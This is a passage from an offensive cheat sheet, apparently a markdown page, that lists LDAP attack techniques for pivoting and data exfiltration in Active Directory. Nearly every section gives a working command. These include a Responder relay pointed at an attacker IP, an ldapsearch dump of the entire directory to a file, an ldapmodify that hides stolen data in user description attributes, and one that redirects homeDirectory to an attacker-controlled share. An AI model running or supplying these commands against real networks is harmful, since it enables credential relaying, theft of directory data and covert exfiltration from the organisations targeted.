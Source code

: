 #### 15.2 LDAP Relaying for Pivoting
- **LDAP Relay Attack**: Sets up an LDAP relay attack using Responder, which can capture and relay LDAP authentication attempts for pivoting into other systems or services.
  ```bash
  responder -I <interface> -r -f -w -i <attacker_ip>
  ```

#### 15.3 Cross-Domain LDAP Enumeration
- **Enumerate Cross-Domain LDAP Objects**: Enumerates cross-domain objects in a forest, which can reveal additional LDAP directories or domains to pivot into.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "CN=Partitions,CN=Configuration,DC=domain,DC=com" "(objectClass=crossRef)"
  ```

## 16. LDAP-Specific Data Exfiltration Techniques

#### 16.1 Exfiltrating Sensitive Data via LDAP Queries
- **Export Sensitive Data**: Exports sensitive data from the LDAP directory to an LDIF (LDAP Data Interchange Format) file for offline analysis or exfiltration.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=*)" -LLL > sensitive_data.ldif
  ```

#### 16.2 Covert Exfiltration via LDAP Hidden Attributes
- **Use Hidden Attributes for Exfiltration**: Hides exfiltrated data within LDAP object attributes, such as the `description` attribute, to covertly transmit sensitive information out of the directory.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  add: description
  description: <exfiltrated_data>
  EOF
  ```

#### 16.3 Exfiltration via LDAP Redirection
- **Redirect LDAP Queries to Attacker Server**: Redirects LDAP directory paths such as `homeDirectory` to an attacker-controlled server, enabling data exfiltration through redirected network shares.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  add: homeDirectory
  homeDirectory: \\<attacker_ip>\exfil_share
  EOF
  ```